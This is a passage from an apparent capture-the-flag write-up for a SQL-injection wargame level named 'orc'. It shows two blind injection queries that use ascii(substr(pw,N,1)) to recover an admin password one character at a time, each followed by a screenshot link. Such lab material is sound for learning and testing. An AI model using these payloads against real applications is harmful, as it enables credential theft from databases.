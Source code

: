 * 4

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,7,1))=52#'`

<img src="./img/orc11.png" width="700">

* 4

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,8,1))=52#'`

<img src="./img/orc12.png" width="700">
